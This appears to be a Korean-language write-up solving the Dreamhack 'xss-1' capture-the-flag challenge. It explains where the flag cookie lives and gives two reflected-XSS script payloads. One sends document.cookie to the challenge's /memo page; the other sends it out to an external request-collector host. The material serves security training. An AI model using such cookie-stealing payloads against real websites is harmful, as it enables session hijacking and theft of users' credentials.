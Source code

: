 # xss-1 (28)

## 문제

https://dreamhack.io/wargame/challenges/28

## 풀이

FLAG 변수를 따라가 보면 /flag path의 POST method에서 값을 얻을 수 있다.

이 값을 read_url함수에서 cookie에 저장한 후, /vuln path에서 query parameter를 return한다.

방법 1.

/memo path를 보면 memo query값을 가져와서 text에 추가하고 접속하면 보여주게 된다.

따라서 /flag path의 query string에 [memo query에 cookie를 넣고 /memo로 이동하는] 스크립트를 추가해서 POST를 날리면 된다.

- POST 명령을 날릴 수 있도록 버튼이 준비되어 있다.
```
http://127.0.0.1:8000/vuln?param=<script>location.href="/memo?memo="+document.cookie</script>
```

- 실행 화면  
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/552786c0-816c-44e6-8ea0-7508daf2423f)

- /memo path에서 DH 확인 가능  
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/44778022-f630-4d6c-a4c4-de7848d4ce4b)

방법 2.

서버를 띄워놓고 location.href에 서버 url을 넣어준다.

```
http://127.0.0.1:8000/vuln?param=<script>location.href="https://ymupogv.request.dreamhack.games/?flag="+document.cookie</script>
```

- 서버는 dreamhack에서 제공하는 tool을 사용했다.
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/1dd25ca4-ea8c-4644-a747-581984083c39)